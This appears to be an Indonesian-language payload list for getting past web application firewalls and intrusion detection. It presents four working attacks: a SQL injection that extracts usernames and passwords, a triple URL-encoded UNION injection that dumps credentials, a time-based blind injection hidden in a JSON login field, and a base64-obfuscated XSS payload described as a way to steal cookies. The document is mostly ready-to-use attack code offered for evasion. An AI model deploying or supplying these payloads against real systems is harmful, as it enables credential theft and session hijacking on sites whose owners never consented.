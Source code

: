 
---

## 📌 **Advanced Payload List for WAF/IDS Bypass**  
_File ini berisi payload tingkat lanjut yang dirancang untuk melewati deteksi WAF modern menggunakan teknik enkripsi, encoding, dan evasion terbaik._  

### **🛡️ 1. Multi-layered SQLi Bypass**  
```sql
' OR (SELECT CASE WHEN (1=1) THEN CAST((SELECT CONCAT(username, ':', password) FROM users LIMIT 1) AS INT) ELSE NULL END)='1'-- -
```
**📌 Teknik:**  
✅ Menggunakan CASE-WHEN untuk menghindari deteksi pola umum.  
✅ `CAST(... AS INT)` membantu menyamarkan payload sebagai angka.  

---

### **🛡️ 2. Triple URL Encoded SQL Injection**  
```sql
%2527%2520UNION%2520SELECT%25201%252C2%252C3%252C4%252C5%252C6%252Cgroup_concat(username,0x3a,password)%2520FROM%2520users--
```
**📌 Teknik:**  
✅ Payload di-encode 3x agar tidak dikenali filter standar.  
✅ Menggunakan `group_concat()` untuk mengambil semua data sekaligus.  

---

### **🛡️ 3. SQL Injection via JSON Bypass**  
```json
{
    "username": "admin' OR IF(LENGTH(database())>0, SLEEP(5), 0)-- -",
    "password": "dummy"
}
```
**📌 Teknik:**  
✅ Menggunakan JSON yang sering diabaikan WAF standar.  
✅ `IF(LENGTH(database())>0, SLEEP(5), 0)` untuk mendeteksi database tanpa mengembalikan output langsung.  

---

### **🛡️ 4. XSS via JavaScript Encoding**  
```html
<img src="x" onerror="eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='))">
```
**📌 Teknik:**  
✅ `atob()` melakukan Base64 decoding di sisi klien untuk menghindari deteksi langsung.  
✅ Bisa digunakan untuk mencuri cookie dengan stealth mode.  

---
